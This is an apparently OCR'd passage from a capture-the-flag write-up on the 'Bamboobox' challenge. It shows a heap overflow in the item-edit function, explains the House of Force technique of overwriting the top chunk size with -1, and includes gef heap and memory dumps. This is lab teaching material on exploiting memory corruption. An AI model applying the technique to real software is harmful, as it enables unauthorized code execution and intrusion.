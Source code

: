 ```
----------------------------
Bamboobox Menu
----------------------------
1.show the items in the box
2.add a new item
3.change the item in the box
4.remove the item in the box
5.exit
----------------------------
Your choice:3
Please enter the index of item:0
Please enter the length of item name:20
Please enter the new name of the item:BBBBBBBBBBBBBBBBBBBB
```

```
----------------------------
Bamboobox Menu
----------------------------
1.show the items in the box
2.add a new item
3.change the item in the box
4.remove the item in the box
5.exit
----------------------------
Your choice:1
0 : BBBBBBBBBBBBBBBBBBBB
----------------------------
```

yes, so as we can see, we have a heap overflow on the change/edit item
within the box. This will allow us to write more bytes than the buffer on the
heap can contain, which will enable us to edit chunk metadata.

There are several variants of the house of force techniques, and many applications
that may be leveraged within the general concept of house of force. The main application
in which we can leverage this heap overflow, is by overwriting the top chunk's wilderness
metadata value into something massive. We can overwrite the wilderness with the largest value
an unsigned integer can represent, "-1".

```nasm
gef➤  heap chunks
Chunk(addr=0x555556269010, size=0x250, flags=PREV_INUSE)
    [0x0000555556269010     00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00    ................]
Chunk(addr=0x555556269260, size=0x20, flags=PREV_INUSE)
    [0x0000555556269260     46 08 40 00 00 00 00 00 61 08 40 00 00 00 00 00    F.@.....a.@.....]
Chunk(addr=0x555556269280, size=0x40, flags=PREV_INUSE)
    [0x0000555556269280     41 41 41 41 41 41 41 41 41 41 41 41 41 41 41 41    AAAAAAAAAAAAAAAA]
Chunk(addr=0x5555562692c0, size=0xfffffffffffffff8, flags=PREV_INUSE|IS_MMAPPED|NON_MAIN_ARENA)  ←  top chunk
gef➤  
```

```nasm
0x5555562691b0: 0x0000000000000000      0x0000000000000000
0x5555562691c0: 0x0000000000000000      0x0000000000000000
0x5555562691d0: 0x0000000000000000      0x0000000000000000
0x5555562691e0: 0x0000000000000000      0x0000000000000000
0x5555562691f0: 0x0000000000000000      0x0000000000000000
0x555556269200: 0x0000000000000000      0x0000000000000000
0x555556269210: 0x0000000000000000      0x0000000000000000
0x555556269220: 0x0000000000000000      0x0000000000000000
0x555556269230: 0x0000000000000000      0x0000000000000000
0x555556269240: 0x0000000000000000      0x0000000000000000
0x555556269250: 0x0000000000000000      0x0000000000000021
0x555556269260: 0x0000000000400846      0x0000000000400861
```